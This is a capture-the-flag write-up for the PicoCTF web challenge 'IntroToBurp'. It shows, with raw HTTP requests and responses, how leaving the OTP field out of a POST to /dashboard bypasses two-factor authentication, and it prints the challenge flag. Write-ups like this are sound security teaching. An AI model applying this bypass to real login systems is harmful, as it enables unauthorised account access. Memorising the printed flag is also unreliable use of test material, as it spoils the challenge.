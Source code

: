 ```yaml
---
title: "IntroToBurp"
description: "Try here to find the flag\n\nHint: Try using burpsuite to intercept request to capture the flag.\nHint: Try mangling the request, maybe their server-side code doesn't handle malformed requests very well."
pubDate: 2025-03-13
ctf: "PicoCTF"
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["easy"]
image: "./images/picoctf/introtoburp/form.png"
---
```


We are supplied a web application that has a registration form:
![form.png](images/picoctf/introtoburp/form.png)

As the challenge says to use Burp Suite, so I set up my proxy with PwnFox and capture the website traffic.

I then fill in the form and send the contents:
```
POST / HTTP/1.1
Host: titan.picoctf.net:56775
...
Cookie: session=eyJjc3JmX3Rva2VuIjoiNGI5M2RlZmQyYTM1NjdmOWQzMjRhM2YxMDY2ZTJiNGRlNWQ2MTJiNiJ9.Z9Jfzw.fPiTJRsE5bmU_QFhnNFs-Z6cklE
...

csrf_token=IjRiOTNkZWZkMmEzNTY3ZjlkMzI0YTNmMTA2NmUyYjRkZTVkNjEyYjYi.Z9Jfzw.r4YYR6jHDamnbwk9w576NDvb0qw&full_name=a&username=b&phone_number=c&city=d&password=3&submit=Register
```

We send the POST request, then are redirected to `/dashboard`:
```html
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.
```

The `/dashboard` endpoint asks for a 2FA code, that we do not have.
![2fa.png](images/picoctf/introtoburp/2fa.png)

Filling it in any way with '123456' responds with:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Invalid OTP
```

Boooooooo.

Looking at the POST request sent to `/dashboard`, this is what is sent:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...

opt=123456
```

What if we don't send an OTP? The application might not check if the OTP exists and default functionality could be to authenticate.

Let's send the following request:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...
```

The application responds:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Welcome, b you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```

And we get the flag!
Flag: `picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}`